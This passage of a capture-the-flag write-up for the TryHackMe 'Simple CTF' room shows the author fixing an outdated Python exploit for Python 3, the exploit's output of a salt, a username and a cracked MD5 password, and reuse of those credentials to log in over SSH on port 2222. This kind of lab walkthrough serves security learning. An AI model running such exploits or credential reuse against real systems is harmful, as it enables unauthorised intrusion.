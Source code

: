 I copied the exploit to another directory, because it's _oudated_ and doesn't work with Python 3.

To fix it: 
- find all the `print` statements and ensure that the script uses `print(something)` instead of `print something`.
- ensure the `crack_password` function uses `str(salt + line).encode()` not just `salt + line` in the `hashlib.md5` call.

If you're interested, I've shared the updated [Python exploit script for this task](https://github.com/josh-a-miller/ctf/blob/master/try-hack-me/simple-ctf/updated-exploit.py).

#### Running the script

The script pulled the following data: 

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

And exposes the password that we're looking for.

### 6. Where can you login with the details obtained?

The stolen & cracked credentials allow us the access the admin portal; but we're looking for a 3 digit directory to solve the flag. 
Let's assume that `mitch` uses their passed `secret` on other services. We already know what there's both an `ssh` and an `ftp` server.

Let's test them.

#### FTP

FTP _does not_ allow us to login. Namely because it _only_ accepts Anonymous login. Which, while interesting, isn't enough for me to dive deeper. For now.

#### SSH

It's important to note that in the earlier `nmap` scan. The ssh service is running on port `2222`. This port is _not_ default, and as such requires you to specify the port in your ssh connect.

```
kali@kali:~/Desktop/TryHackMe/simple-ctf$ ssh mitch@target.thm -p 2222
The authenticity of host '[target.thm]:2222 ([target.thm]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[target.thm]:2222,[target.thm]:2222' (ECDSA) to the list of known hosts.
mitch@target.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```
